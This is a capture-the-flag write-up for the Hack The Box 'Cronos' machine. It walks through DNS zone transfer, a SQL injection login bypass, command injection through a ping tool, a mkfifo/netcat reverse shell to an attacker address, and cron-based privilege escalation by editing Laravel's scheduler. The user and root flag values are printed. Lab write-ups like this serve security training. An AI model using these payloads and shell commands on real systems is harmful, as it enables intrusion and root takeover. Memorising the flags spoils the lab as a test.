


# 🐧 Cronos — HTB


> **TL;DR** — A DNS zone transfer on the open `53` leaks the subdomains of `cronos.htb`, exposing `admin.cronos.htb` → the admin login is bypassed with a classic **SQL injection** (`root' or 1=1 -- `) → the authenticated "Net Tool" page runs `ping`/`traceroute` and is vulnerable to **command injection** (`;` separator) → shell as `www-data` and the user flag → `/etc/crontab` runs `php /var/www/laravel/artisan` every minute **as root**, and `www-data` owns `artisan` and the Laravel source → edit the scheduler (`app/Console/Kernel.php`) to run a command as root → root flag.

**Tags:** `DNS zone transfer` · `vhost enumeration` · `SQL injection` · `command injection` · `reverse shell` · `cron privesc` · `Laravel artisan`

---

## 1. How many TCP ports are listening on Cronos?

Start with a full-range service scan:

```bash
nmap -sV -p- 10.129.227.211
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Three ports are open: SSH (22), DNS (53) and HTTP (80). The open DNS port on a web box is the first thing worth poking at.

> **Answer:** `3`

## 2. What subdomain of cronos.htb is serving a login page over HTTP?

Browsing to `http://10.129.227.211` redirects to `cronos.htb`, so I added it to `/etc/hosts` and enumerated virtual hosts:

```bash
gobuster vhost -u http://cronos.htb \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  --append-domain
```

This revealed `admin.cronos.htb`. I added it to `/etc/hosts` as well and opened it in the browser — it serves a login panel.



Because port `53` is open, the same result comes for free via a **DNS zone transfer** (`AXFR`), which dumps every record the nameserver holds:

```bash
dig axfr @10.129.227.211 cronos.htb
```

```
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
```

> **Answer:** `admin.cronos.htb`

## 3. What is the heading at the top of the webpage once authenticated?

I ran the login form through Burp and tested the `username` field for SQL injection. `sqlmap` confirmed it was injectable, so the login can be bypassed with a classic authentication-bypass payload:

- **Username:** `root' or 1=1 -- ` *(note the trailing space after `--`)*
- **Password:** anything

The `or 1=1` makes the `WHERE` clause always true and `-- ` comments out the rest of the query, logging us in as the first user. The dashboard loads with a "Net Tool" heading.



> **Answer:** `Net Tool v0.1`

## 4. What user is the website on Cronos running as?

The dashboard runs `ping` and `traceroute` against a host you supply — a prime candidate for **command injection**. I tried chaining a command onto the input. `&&` was filtered/unreliable, but the shell `;` separator worked:

```
8.8.8.8;id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> **Answer:** `www-data`

## 5. Submit the flag located in the noulis user's home directory.

With command injection, read the user flag directly:

```
8.8.8.8;cat /home/noulis/user.txt
```

> **Answer:** `4a40865dc999d22610ec41346f040b77`

## 6. What is the full path to the file passed to php in a cronjob that runs every minute as the root user?

To work more comfortably, I upgraded from blind command injection to a real shell. Simple `nc -e` and `bash -i` reverse shells failed, so I used the `mkfifo` named-pipe variant:

```
8.8.8.8;mkfifo /tmp/f;nc 10.10.14.229 4444 0</tmp/f|/bin/sh 1>/tmp/f
```

Then stabilized it into a proper PTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Enter, Enter
export TERM=xterm
```

Checking `/etc/crontab` reveals a root job that runs every single minute:

```
# m h dom mon dow user  command
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Root invokes `php` on the Laravel `artisan` file every minute — the ideal privilege-escalation hook if we can influence what that file runs.

> **Answer:** `/var/www/laravel/artisan`

## 7. Does www-data have write permissions on the artisan binary?

Check the ownership and mode of the file root executes every minute:

```bash
ls -la /var/www/laravel/artisan
```

```
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

The file is owned by `www-data` — the exact user our shell runs as — so we can modify it (and the rest of the Laravel source) and have root execute our changes.

> **Answer:** `yes`

## 8. Submit the flag located in the root user's home directory.

Putting it together: the root cron job runs `php /var/www/laravel/artisan schedule:run` every minute, `artisan` bootstraps the application and runs whatever is defined in Laravel's scheduler at `app/Console/Kernel.php`, and `www-data` owns those files. So I just added a scheduled command to the `schedule()` method:

```php
protected function schedule(Schedule $schedule)
{
    $schedule->exec('cat /root/root.txt > /tmp/root.txt; chmod 644 /tmp/root.txt')->everyMinute();
}
```

Full `app/Console/Kernel.php`:

```php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    protected $commands = [
        //
    ];

    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('cat /root/root.txt > /tmp/root.txt; chmod 644 /tmp/root.txt')->everyMinute();
    }

    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

Within a minute the scheduler runs as root and copies the flag to a world-readable path:

```bash
cat /tmp/root.txt
```

> **Tip:** A more reusable payload is to have root hand us a SUID shell instead of a single file — this survives beyond one flag read:
> ```bash
> cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash
> ```
> Then `/tmp/rootbash -p` spawns a shell with `euid=0`. The `-p` flag is essential: without it bash drops the elevated privileges on startup.

> **Answer:** `06a3dcf95d5c68e203023ee723301640`

---

## 🏁 Flags

| Flag | Value |
|---|---|
| **User** (`/home/noulis/user.txt`) | `4a40865dc999d22610ec41346f040b77` |
| **Root** (`/root/root.txt`) | `06a3dcf95d5c68e203023ee723301640` |
